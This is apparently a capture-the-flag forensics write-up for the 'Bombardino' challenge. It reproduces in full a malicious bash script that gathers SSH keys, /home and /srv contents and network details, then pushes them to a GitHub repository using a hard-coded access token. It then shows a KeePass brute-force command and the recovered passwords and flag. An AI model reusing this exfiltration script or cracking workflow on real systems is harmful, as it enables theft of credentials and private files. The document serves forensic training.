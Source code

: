 
---

## Bombardino Forensics Challenge – Writeup
### blooded – only one solve.
### Author & Team

- **Author**: Sn4keEy3s 
- **Team**: 0M3G4_SQU4D

---

### Initial Overview

After downloading the challenge distribution, we get access to a Linux file system.

![alt text](image-8.png)

The challenge description mentions a file named `scriptiono`. Using the `locate` tool quickly reveals its location.

![alt text](image.png)

The file is located at:

```
/home/sn4keey3s/Downloads/INPT-CTF/usr/lib/tools/Bombardino_scriptino.sh
```

Here is the content of the script:

```bash
#!/bin/bash

TEMP_DIR=$(mktemp -d)
cd "$TEMP_DIR"

mkdir $TEMP_DIR/ssh-exfil

	rsync -a --prune-empty-dirs --include '*/' --include 'id_*' --include 'known_hosts' --exclude '*' /home ./ssh-exfil


	for i in $(find . -name ".ssh" -type d)
		do
			cd $i
			cd ./..
			mv .ssh ssh
			cd ./..
			cd ./..
	done

cd $TEMP_DIR
tar cfv $TEMP_DIR/ssh-exfil.tar $TEMP_DIR/ssh-exfil/

touch ./work.log

{
	echo "Starting data collection for exfiltration..."
	
	echo ""
	
	fqn=$(host -TtA $(hostname -s)|grep "has address"|awk '{print $1}') ; \
	if [[ "${fqn}" == "" ]] ; then fqn=$(hostname -s) ; fi ; \
	echo "${fqn}"

	whoami

	ip link && ip neigh && ip route && ip rule && ip maddress && ip address

} 2>&1 | tee -a ./work.log

cd $TEMP_DIR
echo $(pwd)
git init
git config --global user.email "jantofixsamaqlo@gmail.com"
git config --global user.name "jantofix12"


BRANCH_NAME="exfil-$(date +%s)"
git checkout -b "$BRANCH_NAME"


mkdir $TEMP_DIR/srv_files


cp -r /srv/* $TEMP_DIR/srv_files
cp -r /home/* $TEMP_DIR/srv_files

tar cfv $TEMP_DIR/srv_files.tar $TEMP_DIR/srv_files/
git add ssh-exfil.tar work.log srv_files.tar


git commit -m "Exfiltrated data from $(hostname) at $(date)"

git remote add origin https://jantofix12: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@github.com/jantofix12/samaqlino_forensicino_bombardini.git

git push -u origin "$BRANCH_NAME"

cd - > /dev/null
rm -rf "$TEMP_DIR"


exit
```

This script is clearly malicious. It collects sensitive data like SSH keys, network information, and contents of `/home` and `/srv`, compresses them, and then pushes them to a remote GitHub repository:

```
https://github.com/jantofix12/samaqlino_forensicino_bombardini.git
```

---

### Investigating the GitHub Repository

Let’s clone the repository.

![alt text](image-1.png)

The default branch contains what looks like a simple website, not something uploaded by the malware. Suspiciously, it seems to be a cover-up by the user `@samaqlo`.

Looking at the malware’s code, we see that each exfiltration commit is pushed to a branch named after a UNIX timestamp:

```bash
BRANCH_NAME="exfil-$(date +%s)"
```

That means we need to look at the older branches to find actual stolen data.

![alt text](image-2.png)

There are several interesting branches. One of them is `exfil-1744466130`. Let’s check it out using `git checkout`.

![alt text](image-3.png)

Inside that branch, we find the file `srv_files.tar`, which was exfiltrated by the malware. After extracting it, we see some notable files, including `secret.zip` (which is password-protected) and a `.kdbx` file – a KeePass database.

The idea now is to crack the KeePass database to extract the password that unlocks `secret.zip`.

---

### Cracking the KeePass Database

After doing a bit of OSINT on KeePass cracking tools, I came across this one:

![alt text](image-4.png)

However, this is where the real struggle began. The tool didn’t work on Pop!_OS or Ubuntu. It only ran successfully on Kali Linux. I suspect the issue is related to the `keepassxc` dependency, which might have different internal implementations or dependencies across distributions.

Eventually, I ran the following command on a colleague’s Kali machine:

```
./keepass4brute/keepass4brute.sh secret_vault.kdbx rockyou.txt
```

The password was cracked:  
`iloveyou1`

---

### Retrieving the Flag

Using that password, I opened the KeePass database.

![alt text](image-5.png)

It revealed four stored passwords. I tried each one on the zip file.

![alt text](image-6.png)

The correct password for the zip file was:  
`ArvmZbUrXzqt3dr`

Inside, we finally find the flag:  
`IDEH{bombardino_scriptino_left_no_log_in_the_loggino}`

---

Thanks for the challenge. It was well designed, though I think it would be helpful to mention the compatibility issue with non-Kali Linux systems, especially since the cracking step depends heavily on environment-specific behavior.

---
